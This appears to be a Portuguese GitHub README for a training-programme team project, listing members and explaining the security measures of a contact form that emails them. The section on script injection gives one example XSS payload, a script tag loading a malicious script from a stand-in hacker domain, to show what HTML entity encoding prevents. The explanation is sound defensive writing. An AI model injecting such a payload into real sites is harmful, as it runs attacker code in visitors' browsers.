 ﻿
# Itaú10estrelas

Repositório para desenvolvimento do desafio do grupo 05 do treinamento Itaú, edição PCD, maio de 2021.

## Integrantes: 

* Ângelo Beck
* Daniel Ferreira
* Eduardo Silva Rocha
* Jhony Ferreira Cruz Zuim
* Leandro Silva Araujo
* Letícia dos Santos Silva
* Luan Felipe da Cruz Brito
* Paulo Ricardo Barbosa de Souza
* Rafaela Souza Plachta
* Vanessa Gomes de Oliveira

## Considerações sobre segurança

Quando publicamos conteúdos na Internet, precisamos estar atentos aos ataques. Embora pareça estranho preocupar-se com uma simples publicação de textos, um único email inserido no conteúdo pode ser alvo para spammers.

Mais cuidado ainda quando desenvolvemos ferramentas interativas, onde os "bots" tentarão submeter formulários ou mesmo hackers poderão tentar enviar mensagens indesejadas através de possíveis brechas na segurança.

### Segurança total é impossível

Um sistema 100% seguro é quase impossível. Porém, um elevado cuidado com a segurança irá desencorajar os hackers desde que eles percebam que o esforço para quebrar a segurança não lhes traga uma recompensa valiosa o suficiente.

No nosso caso, um formulário que envia emails poderia oferecer aos hackers diversos objetivos interessantes:

1. Os hackers poderiam utilizar seus bots para encontrar endereços de emails válidos em nosso formulário. Estes endereços poderiam ser acrescentados às suas listas de SPAMS, para distribuir mensagens indesejadas aos integrantes do nosso grupo.

2. Os hackers poderiam tentar quebrar a segurança, e tentar utilizar o back-end para disparar SPAMS através dele para diversos usuários pelo mundo.

3. Os hackers poderiam utilizar o formulário para injetar scripts maliciosos nas mensagens, fazendo com que emails infectados sejam enviados aos integrantes do nosso grupo.

4. Os hakers poderiam utilizar seus bots para enviar mensagens spams para os integrantes do nosso grupo diretamente através do nosso formulário.

### Impedindo a coleta de endereços de email

Nosso formulário não envia ao back-end os endereços de destino. Ao invés, somente o nome do integrante é enviado. No back-end, uma lista secreta contém os emails válidos para completar a operação.

### Impedindo o envio de emails para outras pessoas

Como a lista de emails válidos está no back-end, somente é possível utilizar nosso formulário para enviar emails para os integrantes do nosso grupo. Qualquer tentativa de burlar esta regra será malograda e retornará uma mensagem de erro.

### Impedindo injeção de scripts

Todos os conteúdos inseridos no formulário são filtrados antes do envio, para garantir que caracteres especiais não causem problemas durante o transporte.

No back-end, os caracteres filtrados são recuperados e a mensagem original é reconstituída.

Porém, alguns caracteres especiais são convertidos, no back-end, para "HTML entities" -- sequências especiais que fazem os caracteres serem impressos corretamente na tela ao invés de serem interpretados como código HTML.

Desta forma, evitamos que um ataque de injeção de script não tenha êxito:

~~~
<script src="sou-hacker.com/script-malvado.js"></script>
~~~

### Driblando robôs

Nosso formulário utiliza X-HTTP-Request para submeter os dados do formulário, e o endereço do back-end está "hardcoded" dentro do script. Como a maioria dos crawlers (softwares robôes) que vasculham a rede e tentam enviar formulários não executam scripts, dificilmente algum deles tterá êxito ao tentar enviar qualquer coisa através do nosso formulário.

## Dupla verificação

Alguns campos do formulário são de preenchimento obrigatório. O javascript irá verificar os campos antes de submeter o formulário. Porém, o back-end fará uma segunda verificação, de modo que alguém que tente adulterar o formulário e enviar campos vazios ou dados inválidos, não terá êxito e receberá uma mensagem de erro do servidor.
